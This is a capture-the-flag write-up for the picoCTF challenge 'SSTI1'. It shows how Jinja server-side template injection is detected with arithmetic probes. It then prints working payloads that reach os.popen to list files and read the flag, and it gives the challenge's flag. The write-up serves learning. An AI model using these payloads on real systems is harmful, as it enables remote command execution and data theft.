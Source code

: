 # SSTI1
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

## My Solution:
1) So firstly we have a website that announces anything as input.
2) The challenge instance provides the hint Server-Side Template Injection (SSTI).
3) To execute a successful SSTI attack, it is first important to identify what template engine was being used.
4) The input {{ 7 * 7 }} was tested and successfully executed the code, returning the result 49.
5) This narrowed the language down to either Jinja or Twig.
6) To differentiate, a test was run to check how the system handles the multiplication of an integer and a string: {{ 7 * '7' }}.
7) The result was the string '7' repeated seven times (7777777), which confirms the template engine is Jinja .
8) Now, in the input box, '''{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}''' was pasted.
9) This gives us the list of files present, which includes the flag file.
10) Then, '''{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}}''' was inputted.
11) this printed the flag file.


*Flag:* picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}

## Concepts Learnt:
Came to know about SSTI attacks and vulnerabilities.

## Notes:
Anytime a website has a function that has a print out function, that might have a SSTI vulnerability.
